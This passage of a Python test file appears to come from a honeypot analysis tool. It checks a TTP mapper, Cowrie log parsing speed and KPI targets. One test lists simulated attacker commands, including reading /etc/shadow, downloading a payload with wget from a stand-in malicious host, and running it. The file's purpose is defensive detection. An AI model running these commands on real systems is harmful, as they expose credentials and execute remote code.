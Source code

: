 ```python
        assert len(mapper.TTP_PATTERNS) >= 27
    
    def test_realistic_attack_yields_10_plus_ttps(self):
        """Simulate realistic attack and validate ≥10 TTPs extracted."""
        mapper = TTPMapper()
        
        # Realistic SSH brute force + post-exploit sequence
        commands = [
            "uname -a",
            "whoami",
            "id",
            "cat /etc/passwd",
            "cat /etc/shadow",
            "ls -la /root",
            "find / -name '*.conf'",
            "wget http://malicious.com/payload.sh",
            "chmod +x payload.sh",
            "./payload.sh",
            "crontab -e",
            "ps aux | grep root"
        ]
        
        ttps = mapper.map_ttps(commands, "ssh_brute_force")
        unique_ttps = set(ttps)
        
        assert len(unique_ttps) >= 10, f"KPI FAILED: Only {len(unique_ttps)} unique TTPs"


class TestKPI4_Latencia_Processamento:
    """
    KPI 4: Latência de Processamento
    Target: <60 segundos do capture → Kafka
    """
    
    @pytest.mark.asyncio
    async def test_cowrie_parse_latency_under_5_seconds(self, benchmark):
        """Test Cowrie parser processes 1000-line log in <5 seconds."""
        from pathlib import Path
        from backend.services.reactive_fabric_analysis.parsers import CowrieJSONParser
        
        # Create large test file (1000 lines)
        test_file = Path("/tmp/large_cowrie.json")
        with open(test_file, "w") as f:
            for i in range(1000):
                f.write('{"eventid": "cowrie.command.input", "input": "whoami"}\n')
        
        parser = CowrieJSONParser()
        
        # Benchmark
        result = benchmark(parser.parse, test_file)
        
        # Should complete in <5 seconds
        assert benchmark.stats["mean"] < 5.0
        
        test_file.unlink()


class TestKPI5_Taxa_Sucesso:
    """
    KPI 5: Taxa de Sucesso
    Target: ≥95% de captures processados sem erro
    """
    
```